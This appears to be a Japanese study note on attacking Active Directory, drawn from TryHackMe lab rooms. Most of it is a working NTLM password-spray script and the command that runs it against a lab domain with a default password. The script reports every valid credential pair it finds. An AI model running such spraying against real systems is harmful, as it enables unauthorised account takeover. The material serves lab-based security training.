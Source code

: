 # AD 侵入

https://tryhackme.com/room/exploitingad

## NetNTLM

### パスワードスプレー攻撃の例

（出展）https://tryhackme.com/r/room/breachingad

```shell
$ python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

```python
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)
```
